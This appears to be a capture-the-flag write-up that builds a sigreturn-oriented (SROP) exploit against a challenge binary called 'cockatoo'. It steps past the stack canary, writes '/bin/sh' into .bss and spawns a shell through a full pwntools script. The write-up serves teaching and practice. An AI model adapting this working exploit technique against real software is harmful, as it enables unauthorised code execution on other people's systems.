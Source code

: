 # File Analysis 

![](images/file.png)
![](images/checksec.png)

As we can see it's normal ELF file but statically linked , no PIE and with canary 

# Code Analysis 

We are not introduced to many functions , so we only have the main to worry about 
![](images/ghidra.png)

This code reads input byte-by-byte from standard input until a newline or 256 characters are reached (there is no point of sending more than 256 bytes as only 256 are gonna be read ) storing it in local_118. It then writes the collected input to standard output and performs a stack integrity check using stack_chk_fail.
Then it checks if our input reaches 256 character, it will print that out 
Notice there is no format strings vulnerability so leaking the canary is out of our mind at this point .

# Looking at our ROP gadgets

Using ROPgadget, and looking through the gadgets we have we only see syscall ,and pop rax that matters 

![](images/gadgets.png)
At this point we start thinking of our vulnerability here which is SROP.
But notice here our syscall has not (ret), so this syscall is not going to benifit us, We'll search the binary itself for a syscall and we find this : 
![](images/syscall.png)


Knwoing SROP we only need syscall;ret , pop rax which now have and an address for /bin/sh or some other shell 
Searching the binary for a shell we couldn't find anything with a 0x400.. address 
![](images/bin.png)

So now we are thinking of a way to write /bin/sh into the binary, and that's possible due to the ability to write on .bss section, which can be found like this : 
![](images/vmmap.png)

the purple region is our writable space, for caution we will take 0x403000 + 100 = 0x0x403100

# Our first SROP frame for reading
```python
POP_RAX = 0x0000000000401001
SYSCALL_RET = 0x0000000000401a8b
writable = 0x403100  # DATA section from vmmap + 0x100 for extra space 

# First SigreturnFrame for read(0, writable, 0x400)
frame = SigreturnFrame()
frame.rax = 0            # read syscall
frame.rdi = 0            # file descriptor stdin (0)
frame.rsi = writable     # where data will be stored
frame.rsp = writable     # make stack point to our writable address
frame.rdx = 0x400        # number of bytes to read
frame.rip = SYSCALL_RET  # return to syscall
```

# Canary and Stack alignment

So now we know we are using SROP to write /bin/sh then SROP to call /bin/sh , but what about the canary? 
We will start by sending 256 bytes and breaking there to examine the stack , we will set a break point at 0x00000000004011ca before the strlen being called , and hit continute 256 ( c 256 ) times so our input being read to the stack :

```python
payload = b'A' * 0x100   



payload += flat(
    POP_RAX,
    0xf,             # syscall number for sigreturn
    SYSCALL_RET,
    bytes(frame)     # the SigreturnFrame
)

# Send the first payload to read our input 
r.sendline(payload)
```

![](images/stack.png)

AS you can see, our 256 bytes + some bytes from rsi-2 + canary + rbp + ret address (our goal)

So until we reach ret address , there are \x18 bytes , notice the rbp value is 1 , so \x18 didn't work , we will use \x17 

```python
payload = b'A' * 0x100   + b'\x17' # the \x17 because we didn't reach the ret address yet 



payload += flat(
    POP_RAX,
    0xf,             # syscall number for sigreturn
    SYSCALL_RET,
    bytes(frame)     # the SigreturnFrame
)

# Send the first payload to read our input 
r.sendline(payload)
```

![](images/read.png)

from the image we see now are prompted with another read syscall :) 

# /bin/sh address calculation 

Now our seconde read we will use it to call execve with our /bin/sh (we didn't write /bin/sh yet)
we will write it after the execve syscall and locate it first
our break point will be after sending our first payload

```python
# Second SigreturnFrame for execve("/bin/sh", 0, 0)
frame2 = SigreturnFrame()
frame2.rax = 0x3b        # execve syscall
frame2.rdi = 000000    # pointer to "/bin/sh" in writable memory still unknown
frame2.rsi = 0           # argv = NULL
frame2.rdx = 0           # envp = NULL
frame2.rip = SYSCALL_RET # return to syscall

# Payload to trigger the second sigreturn frame
payload2 = flat(
    POP_RAX,
    0xf,             # syscall number for sigreturn
    SYSCALL_RET,
    bytes(frame2)
)

# Send the second payload and /bin/sh
r.sendline(payload2  + b'/bin/sh\x00')

```
notice here our new stack 
![](images/newstack.png)

hit continue again , then search for /bin/sh
![](images/binsh.png)

now we have located it , our exploit is complete we just need to call it 


# Full Exploit 


```python
from pwn import *

# Assuming the binary is called 'cockatoo'
context.binary = elf = ELF('./cockatoo')
r = process()
# gdb.attach(r,gdbscript='''b * 0x00000000004011ca''')

POP_RAX = 0x0000000000401001
SYSCALL_RET = 0x0000000000401a8b
writable = 0x403100  # DATA section from vmmap + 0x100 for extra space 

# First SigreturnFrame for read(0, writable, 0x400)
frame = SigreturnFrame()
frame.rax = 0            # read syscall
frame.rdi = 0            # file descriptor stdin (0)
frame.rsi = writable     # where data will be stored
frame.rsp = writable     # make stack point to our writable address
frame.rdx = 0x400        # number of bytes to read
frame.rip = SYSCALL_RET  # return to syscall

# Payload to trigger the first sigreturn frame
payload = b'A' * 0x100  + b'\x17' # the \x17 because I didn't reach the ret address yet 



payload += flat(
    POP_RAX,
    0xf,             # syscall number for sigreturn
    SYSCALL_RET,
    bytes(frame)     # the SigreturnFrame
)

# Send the first payload to read our input 
r.sendline(payload)
# gdb.attach(r)

# Second SigreturnFrame for execve("/bin/sh", 0, 0)
frame2 = SigreturnFrame()
frame2.rax = 0x3b        # execve syscall
frame2.rdi = 0x403210    # pointer to "/bin/sh" in writable memory
frame2.rsi = 0           # argv = NULL
frame2.rdx = 0           # envp = NULL
frame2.rip = SYSCALL_RET # return to syscall

# Payload to trigger the second sigreturn frame
payload2 = flat(
    POP_RAX,
    0xf,             # syscall number for sigreturn
    SYSCALL_RET,
    bytes(frame2)
)

# Send the second payload to execute the shell
r.sendline(payload2  + b'/bin/sh\x00')


# Interact with the spawned shell
r.interactive()
```

![](images/id.png)




